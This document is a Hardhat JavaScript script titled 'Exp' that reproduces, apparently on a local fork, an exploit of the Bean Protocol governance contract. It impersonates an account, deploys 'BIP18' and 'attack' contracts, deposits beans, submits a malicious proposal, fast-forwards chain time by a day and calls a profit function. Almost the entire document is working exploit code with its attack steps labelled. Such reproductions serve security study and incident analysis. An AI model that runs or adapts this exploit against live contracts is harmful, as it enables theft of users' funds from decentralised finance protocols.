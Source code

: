 Exp:

```javascript
const hre = require("hardhat");



async function main() {

    const ATTACKER = "0x28C6c06298d514Db089934071355E5743bf21d60";
    const BEANPROTOCOL = "0xc1e088fc1323b20bcbee9bd1b9fc9546db5624c5";
    const BEAN = "0xDC59ac4FeFa32293A95889Dc396682858d52e5Db";
    await hre.network.provider.request({
        method: "hardhat_impersonateAccount",
        params: [ATTACKER],
    });
    const signer = await hre.ethers.getSigner(ATTACKER);
    
    let BIP18 = await hre.ethers.getContractFactory("BIP18",signer);
    const bip18 = await BIP18.deploy();
    await bip18.deployed();
    console.log("bip18 contract deployed to:", bip18.address);

    let ATTACK = await hre.ethers.getContractFactory("attack",signer);
    const attack = await ATTACK.deploy();
    await attack.deployed();
    console.log("attack contract deployed to:", attack.address);


    
    const BeanProtocol = await hre.ethers.getContractAt("contracts/attack.sol:IBeanProtocol", BEANPROTOCOL, signer);
    const Bean = await hre.ethers.getContractAt("contracts/attack.sol:IERC20", BEAN, signer);
    
    
    console.log("step 1: get some beans and make a proposal.");
    const depositAmount = await bip18.getSomeBeans({
        value: hre.ethers.utils.parseEther("73.0")
    });
    await Bean.approve(BEANPROTOCOL, 211000000000);
    await BeanProtocol.depositBeans(211000000000);
    await BeanProtocol.propose([], bip18.address, "0xe1c7392a", 3);
    console.log("step 2: wait for a day, to met the emergencyWithdraw time requirement.");
    await hre.network.provider.send("evm_increaseTime", [3600 * 24]);
    await hre.network.provider.send("evm_mine");
    console.log("step 3: launch the attack.");
    await attack.profit();



}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});

```
